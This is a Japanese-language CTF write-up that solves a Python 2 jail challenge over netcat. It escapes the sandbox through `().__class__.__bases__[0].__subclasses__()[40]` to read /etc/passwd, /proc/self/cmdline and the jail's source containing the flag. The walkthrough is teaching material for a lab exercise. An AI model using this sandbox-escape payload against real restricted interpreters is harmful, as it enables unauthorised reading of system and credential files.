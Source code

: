 # Broken Python:Miscellanous:380pts
Please help me read the flag. I thought I knew python but this python shell is broken.  
nc 143.198.224.219 9999  
![pythonshell.jpeg](images/pythonshell.jpeg)  
S'il vous plaît, aidez-moi à lire le drapeau. Je pensais connaître python mais ce terminal python est ne fonctionne pas!  
nc 143.198.224.219 9999  
`143.198.224.219:9999`  
Hint  
The trick is to correctly use classes and/or subclasses.  
Hint  
Use python in a special fashion to read flag.txt located in the current directory.  

# Solution
接続先が渡されるので、ncで接続する。  
```bash
$ nc 143.198.224.219 9999
Find the flag.
>>> print(1)
1
>>> print(flag)
You have encountered an error.
>>> print(chr(65))
You have encountered an error.
>>> __import__("os").system("ls")
You have encountered an error.
>>> print 2
2
```
python2が動いているようだ。  
エラーが出るものやブラックリストであると`You have encountered an error.`と出力される。  
この手のpythonサンドボックスは「python jail technique」と検索すると、いろいろと情報が見つかる。  
手始めに[Bypass Python sandboxes - HackTricks](https://book.hacktricks.xyz/misc/basic-python/bypass-python-sandboxes)を試すとよい。  
`().__class__.__bases__[0].__subclasses__()[40]('/etc/passwd').read()`でエラーが出なかった。  
```bash
>>> ().__class__.__bases__[0].__subclasses__()[40]('/etc/passwd').read()
>>> print(().__class__.__bases__[0].__subclasses__()[40]('/etc/passwd').read())
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
~~~
>>> print(().__class__.__bases__[0].__subclasses__()[40]('flag.txt').read())
The flag is in the source code.
```
任意のファイルが読み出せるが、フラグはflag.txtではなく、実行されている.pyファイルに書かれているようだ。  
ファイル名を特定する必要がある。  
`/proc/self/cmdline`を読むか、様々な入力を試した結果sysが使えることが分かっていたので`print(sys.argv[0])`を実行すれば良い。  
```bash
>>> print(().__class__.__bases__[0].__subclasses__()[40]('/proc/self/cmdline').read())
/usr/local/bin/pythonjail.py
>>> print(sys.argv[0])
jail.py
```
`jail.py`と分かったので読み取る。  
```bash
>>> print(().__class__.__bases__[0].__subclasses__()[40]('jail.py').read())
#!/usr/bin/python
~~~

def flag_function():
    flag = "OFPPT-CTF{py7h0n_br34k_1s_l1k3_pr1s0n_br34k_sh0w}"

~~~
```
flagが得られた。  

## OFPPT-CTF{py7h0n_br34k_1s_l1k3_pr1s0n_br34k_sh0w}